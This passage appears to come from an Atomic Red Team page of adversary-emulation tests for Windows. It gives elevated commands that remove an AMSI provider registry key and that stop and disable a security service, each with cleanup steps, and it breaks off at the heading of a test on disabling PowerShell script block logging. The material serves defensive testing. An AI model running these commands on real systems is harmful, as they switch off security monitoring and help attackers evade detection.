 **Supported Platforms:** Windows

#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin)

```powershell
Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" -Recurse
```

#### Cleanup Commands:

```powershell
New-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers" -Name "{2781761E-28E0-4109-99FE-B9D127C57AFE}" -ErrorAction Ignore | Out-Null
```

<br/>
<br/>

## Atomic Test #13 - Disable Arbitrary Security Windows Service

With administrative rights, an adversary can disable Windows Services related to security products.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| service_name | The name of the service to stop | String | McAfeeDLPAgentService|

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
net.exe stop #{service_name}
sc.exe config #{service_name} start= disabled
```

#### Cleanup Commands:

```cmd
sc.exe config #{service_name} start= auto >nul 2>&1
net.exe start #{service_name} >nul 2>&1
```

<br/>
<br/>

## Atomic Test #14 - Disable PowerShell Script Block Logging

An adversary may disable PowerShell Script Block Logging to avoid leaving evidence.
